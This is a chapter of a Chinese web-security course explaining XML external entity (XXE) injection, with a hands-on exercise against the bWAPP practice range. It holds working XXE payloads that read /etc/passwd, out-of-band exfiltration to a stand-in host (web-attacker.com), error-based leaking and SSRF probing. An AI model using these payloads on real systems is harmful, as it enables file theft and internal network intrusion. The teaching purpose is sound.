

- 00 导读 解读OWASP Top10 2021.md.html
- 00 开篇词 从黑客的视角找漏洞，从安全的角度优雅coding.md.html
- 01 失效的访问控制：攻击者如何获取其他用户信息？.md.html
- 02 路径穿越：你的Web应用系统成了攻击者的资源管理器？.md.html
- 03 敏感数据泄露：攻击者如何获取用户账户？.md.html
- 04 权限不合理：攻击者进来就是root权限？.md.html
- 05 CSRF：为什么用户的操作他自己不承认？.md.html
- 06 加密失败：使用了加密算法也会被破解吗？.md.html
- 07 弱编码：程序之间的沟通语言安全吗？.md.html
- 08 数字证书：攻击者可以伪造证书吗？.md.html
- 09 密码算法问题：数学知识如何提高代码可靠性？.md.html
- 10 弱随机数生成器：攻击者如何预测随机数？.md.html
- 11 忘记加“盐”：加密结果强度不够吗？.md.html
- 12 注入（上）：SQL注入起手式.md.html
- 13 注入（下）：SQL注入技战法及相关安全实践.md.html
- 14 自动化注入神器（一）：sqlmap的设计思路解析.md.html
- 15 自动化注入神器（二）：sqlmap的设计架构解析.md.html
- 16 自动化注入神器（三）：sqlmap的核心实现拆解.md.html
- 17 自动化注入神器（四）：sqlmap的核心功能解析.md.html
- 19 失效的输入检测（上）：攻击者有哪些绕过方案？.md.html
- 20 失效的输入检测（下）：攻击者有哪些绕过方案？.md.html
- 21 XSS（上）：前端攻防的主战场.md.html
- 22 XSS（中）：跨站脚本攻击的危害性.md.html
- 23 XSS（下）：检测与防御方案解析.md.html
- 24 资源注入：攻击方式为什么会升级？.md.html
- 25 业务逻辑漏洞：好的开始是成功的一半.md.html
- 26 包含敏感信息的报错：将安全开发标准应用到项目中.md.html
- 27 用户账户安全：账户安全体系设计方案与实践.md.html
- 28 安全配置错误：安全问题不只是代码安全.md.html
- 29 Session与Cookie：账户体系的安全设计原理.md.html
- 30 HTTP Header安全标志：协议级别的安全支持.md.html
- 31 易受攻击和过时的组件：DevSecOps与依赖项安全检查.md.html
- 32 软件和数据完整性故障：SolarWinds事件的幕后⿊⼿.md.html
- 33 SSRF：穿越边界防护的利刃.md.html
- 34 Crawler VS Fuzzing：DAST与机器学习.md.html
- 35 自动化攻防：低代码驱动的渗透工具积累.md.html
- 36 智能攻防：构建个性化攻防平台.md.html
- 大咖助场 数字证书，困境与未来.md.html
- 春节策划（一） 视频课内容精选：Web渗透测试工具教学.md.html
- 春节策划（三） 一套测试题，看看对课程内容的掌握情况.md.html
- 春节策划（二） 给你推荐4本Web安全图书.md.html
- 结束语 无畏前行.md.html
- 捐赠
24 资源注入：攻击方式为什么会升级？
你好，我是王昊天。
在我们浏览Web应用的时候，我们可以看到很多不同的信息，并且它们会以不同的样式展现给我们。Web开发者为了方便数据的管理和维护，往往会将数据内容和前端设计分开。XML会在这个过程中扮演很重要的角色。
XML即可扩展标记语言，它的名称来自eXtensible Markup Language的缩写。XML与HTML不同，它仅仅被设计用来传输和存储数据，不负责数据的显示。值得一提的是，它被广泛应用于各种Web应用中，为数据的读取提供了极大的便利。
可是XML在给我们带来便利的同时，也带来了一些安全性的问题，今天让我们一起来学习它带来的安全问题吧！
XML外部实体注入
XML带来的安全问题主要是XML外部实体注入，即XML external entity (XXE) injection，我们简称为XXE。在对这一漏洞进行学习之前，我们首先来学习XML的基础知识。
XML可扩展标记语言
XML的意思为可扩展标记语言，它是负责数据的传输和存储的。为了让你更好地理解它，我们直接来看示例。
# 这是XML声明。
<?xml version="1.0" encoding="ISO-8859-1"?>
# 接下来开始了对存储数据的描述，它的根元素为`note`。
<note date="2022/02/08">
<to>LiYang</to>
<from>WangHua</from>
<heading>Email</heading>
<body>Welcome to China!</body>
</note>
这就是一个简单的XML语句，你可能看不懂它，但不要着急，我来给你解释一下。
代码第一行的内容为XML语言的声明，它定义了XML版本（1.0）以及所使用的编码（ISO-8859-1）。完成声明之后，就可以开始存储数据了，可以看到它包含了很多的标签，其中note标签是它的根节点，在根节点下面有很多标签如
其中note标签中包含了一个date属性，标签中的属性主要用来记录数据的元数据，例如数据的编号等。数据本身则应该存储为元素，所以我们最好将上述XML代码改为如下：
# 这是XML声明。
<?xml version="1.0" encoding="ISO-8859-1"?>
# 接下来开始了对存储数据的描述，它的根元素为`note`。
<note id="1">
<date>2022/02/08</date>
<to>LiYang</to>
<from>WangHua</from>
<heading>Email</heading>
<body>Welcome to China!</body>
</note>
这样XML代码就更加符合规范。当然，XML代码也是存在一定的形式要求的，那就是XML验证，我们先来看看对于XML的形式要求是什么。
第一个要求为，XML文档必须要有根元素，在上述代码示例中note即为根元素。符合这一个要求后，验证程序会去检验XML文档中必须有关闭标签，即有了
当一个XML文档符合上述形式要求后，它还需要满足一个文档类型定义即DTD的语法规则，接下来让我们一起来学习它。
DTD文档类型定义
DTD的作用为定义XML文档的合法构建方式，为了让你更好地理解它，下面让我们一起来看一个示例：
<!DOCTYPE note [
<!ELEMENT note (date,to,from,heading,body)>
<!ELEMENT date (#PCDATA)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
]>
在上述DTD代码中，第一行定义了这是对哪种类型的根元素的限制，如在上述示例中，就是对note类型的限制。然后规定了这个节点下面有哪些子标签，并且对每个标签的内容进行定义，示例中将每个标签的内容都规定为PCDATA即解析字符数据。
完成了DTD的编写之后，Web应用在处理XML文档时，就会开始判断XML是否合法，如果合法就会处理这个文档，否则就不会继续处理这个文档。一般来说，DTD文档既可以被写在XML文档内，也可以通过外部引用进行导入，它的导入方式如下：
<!DOCTYPE note SYSTEM "http://www.example.com/example.dtd">
#其中 example.dtd文件为
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
这段代码引入了外部DTD文件，这里是一个安全隐患。到这里，你可能会好奇DTD不就是做一些检测工作，会导致什么安全问题呢？
事实上，这个DTD文档，还有一个实体声明的功能，它的这一功能也就是导致我们今天所讲的XXE漏洞的主要原因。接下来，让我们一起来重点看看它吧。
DTD实体是用于定义引用普通文本或特殊字符的快捷方式的变量，这么说可能会有点抽象，下面我们一起看一个示例，这样理解起来就会简单些。
<?xml version="1.0"?>
<!DOCTYPE example [
#<!ENTITY 实体名称 “实体的值”>
<!ENTITY to "LiHua">
]>
<example>&to;</example>
在这个示例的DTD语句中，定义了一个实体to，并让它的值为LiHua，然后在XML语句中，可以用&to调用这个实体。
这是一个内部实体声明，因为实体的值已经被写在了XML语句中，它其实还支持外部实体声明，具体的实现方式为：
#<!ENTITY 实体名称 SYSTEM "URI">
<!ENTITY to SYSTEM "http://example.com/example.dtd">
这个功能就是我们今天所讲的XXE的罪魁祸首，攻击者就是通过DTD外部实体声明来实现外部实体注入的。
XML外部实体注入的产生原因
如果Web应用存在外部实体注入问题，那么攻击者可以构建负载如下：
<!DOCTYPE a [
<!ENTITY b SYSTEM "file:///etc/passwd">
]>
<c>&b;</c>
如果页面解析了其中c标签的内容，并将它输出在Web页面上，那么攻击者就可以读取到隐私文件passwd里的内容，这是非常危险的。
当然攻击者也可以利用DTD文档引入外部DTD文档，然后再引入外部实体声明，这样需要的XML内容为：
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://evial_ip.com/evil.dtd">
<c>&b;</c>
其中外部的evil.dtd文件的内容为：
<!ENTITY b SYSTEM "file:///etc/passwd">
这样也是可以实现输出隐私文件passwd的功能。除此之外，攻击者还可以通过DTD外部实体声明引入外部实体声明，这有点类似于套娃了，不过它也是一种可行的方式，让我们一起来看看吧。
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY % d SYSTEM "http://example.com/example.dtd">
%d;
]>
<c>&b;</c>
#example.dtd的内容为
<!ENTITY b SYSTEM "file:///etc/passwd">
注意这里的%d，它是一个参数实体。Web应用在解析这个XML文件时，会首先将%d的值设置为example.dtd中的内容，然后调用%d，将example.dtd的运行结果赋予给b，并将它输出到标签
以上内容就是XML外部实体注入的产生原因，下面我们一起来学习它有哪些危害吧。
XML外部实体注入的危害
XML外部实体注入会有很多危害，例如隐私文件获取以及发起SSRF攻击。让我们看一下它的攻击方式。
XXE隐私文件获取
在之前学习XXE攻击方式的过程中，我们用XXE攻击来获取passwd文件。其实这就是XXE获取隐私文件的攻击方式。
在之前的示例中，我们默认了页面会将我们设置的XML内容进行输出，但实际上，Web应用往往不会输出我们注入的XML内容。这时候就是XXE盲注，我们需要借助一些技巧，来将文件的内容展示出来。
面对XXE盲注时，我们可以利用带外的方法来获取数据：
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY % exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
在上述示例中，我们将获取到的数据通过get方式发送到攻击者的服务器，这样攻击者可以查看服务器接收到的请求获取到想要的数据。
当然，我们还可以利用报错信息来输出想要获取的数据：
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY % error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
在这个示例中，我们将引入了error参数，XML会去访问一个不存在的文件，导致错误的产生，并将错误信息给eval，由于文件路径中存在我们需要的数据file，这样就会导致Web应用显示出错信息，并且其中包含我们需要的数据。我们可以看一个示例输出：
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
XXE发起SSRF攻击
SSRF攻击即为服务端请求伪造，我们可以利用XXE来实现。首先我们先来看一个示例，这样可以帮助我们理解它的攻击方式。
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
这是我们需要注入的XML代码，Web应用在解析它的时候，会向其中的链接发出请求，并且这个请求是由被攻击Web应用的服务器所发送的，这就是SSRF攻击。
它到底有什么作用呢？我们可以利用它来判断Web应用服务器内网地址的开启情况，只需要将链接改为服务器的内网地址，然后根据响应的内容就可以判断内网地址是否开放，这会对内网的安全产生威胁。
在了解完XXE的攻击方式后，让我们进入到实战部分来切身体会下XXE攻击的危害吧。
实战演练
在实战过程中，我们选用靶场bwapp做测试，需要注意的是，我们要将bwapp靶场中的xxe-2.php文件中的内容作修改，将$xml的值改为如下：
$xml = simplexml_load_string($body,'SimpleXMLElement',LIBXML_NOENT);
然后，打开靶场我们可以看到，页面中有一个按钮 Any bugs?，我们点击不会有反应，这时候可以打开Burpsuite做测试，通过捕获我们获取到点击按钮会发送请求：
POST /xxe-2.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 59
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
sec-ch-ua-platform: "macOS"
Content-type: text/xml; charset=UTF-8
Accept: */*
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/xxe-1.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: security_level=0; PHPSESSID=847jvmklugetdus5u1on5b92v6
Connection: close
<reset><login>bee</login><secret>Any bugs?</secret></reset>
经过观察，我们看到Content-type的值为text/xml，所以我们可以分析出下面的数据为XML数据，于是可以尝试进行XXE攻击。
POST /xxe-2.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 178
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
sec-ch-ua-platform: "macOS"
Content-type: text/xml; charset=UTF-8
Accept: */*
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/xxe-1.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: security_level=0; PHPSESSID=847jvmklugetdus5u1on5b92v6
Connection: close
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE reset[
<!ENTITY Info SYSTEM "http://127.0.0.1/1.txt">
]>
<reset><login>&Info;</login><secret>Any bugs?</secret></reset>
我们可以利用之前学习的知识，将请求中的XML数据进行修改，利用XXE攻击获取到1.txt文件中的内容。

可以看到1.txt中的内容已经被显示在响应中，我们的XXE攻击成功。
总结
这一讲我们学习了XML外部实体注入攻击，首先我们介绍了什么是XML可扩展标记语言，知道它是一个用来存储和调用数据的文件，并对它的语法进行了大致的了解。
随着对它学习的深入，我们知道了XML中存在一个验证文档，即DTD文档类型定义，并了解到它其中有一个实体定义的问题，也就是引起XXE漏洞的主要原因。
在学习完一些XML以及DTD的基础知识后，我们深入地分析了XXE漏洞产生的原因，即XML代码注入导致的DTD对外部实体的定义，从而获取到一些隐私文件或者发起服务端请求伪造。
最后，我们通过实战切身体会到了XXE攻击的危害，并且加深了我们对这一攻击方式的理解。
思考题
你知道有什么防范XXE攻击的措施吗？
欢迎在评论区留下你的思考。如果觉得今天的内容对你有所帮助的话，也欢迎你把课程分享给其他同事或朋友，我们共同学习进步！
© 2019 - 2023 Liangliang Lee. Powered by gin and hexo-theme-book.